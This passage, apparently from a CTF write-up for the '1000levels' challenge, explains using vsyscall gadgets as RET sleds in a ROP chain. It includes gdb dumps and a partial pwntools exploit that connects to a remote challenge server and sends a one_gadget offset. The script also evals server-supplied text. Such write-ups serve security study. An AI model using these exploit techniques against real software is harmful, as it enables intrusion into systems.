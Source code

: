 The vsyscall page contains some interesting gadgets that we can use to just
`RET` and walk up the stack.

```shell
gdb-peda$ x/32i 0xffffffffff600400
   0xffffffffff600400:    mov    rax,0xc9
   0xffffffffff600407:    syscall
   0xffffffffff600409:    ret
   0xffffffffff60040a:    int3
   0xffffffffff60040b:    int3
```

Note that we have to jump to `0xffffffffff600400` and not `0xffffffffff600409`
because these instructions are not actually executed but
[emulated](https://github.com/torvalds/linux/commit/5cec93c216db77c45f7ce970d46283bcb1933884).
This means, in practical terms, that we cannot jump in the middle because the
Linux kernel does not know how to handle it and the program will simply crash.

This is how a successful ROP chain would look like:

```shell
gdb-peda$ stack
0000| 0x7fffffffe3d8 --> 0xffffffffff600400 (mov    rax,0xc9)
0008| 0x7fffffffe3e0 --> 0xffffffffff600400 (mov    rax,0xc9)
0016| 0x7fffffffe3e8 --> 0xffffffffff600400 (mov    rax,0xc9)
0024| 0x7fffffffe3f0 --> 0x7ffff7a5226a (<do_system+1098>:    mov    rax,QWORD PTR [rip+0x37ec47]        # 0x7ffff7dd0eb8)
0032| 0x7fffffffe3f8 --> 0x3e8
0040| 0x7fffffffe400 --> 0x4e5546204f ('O FUN')
0048| 0x7fffffffe408 --> 0x0
0056| 0x7fffffffe410 --> 0x0
```

## Final Exploit

Here's the final exploit script:

```python
from pwn import *
import sys

#context.log_level = "debug"

system_offset = 0x0000000000045390
ret_address = 0xffffffffff600400
target_offset = 0x4526a

difference = target_offset - system_offset

def answer(eqn):
    parse = eqn[9:eqn.find("=")]
    soln = eval(parse)
    return soln

def main():
    #p = process("./1000levels")
    p = remote("47.74.147.103", 20001)

    p.sendline("2")
    p.clean()
    p.sendline("1")
    p.clean()
    p.sendline("0")
    p.clean()
    p.sendline(str(difference))

    for i in range(999):
```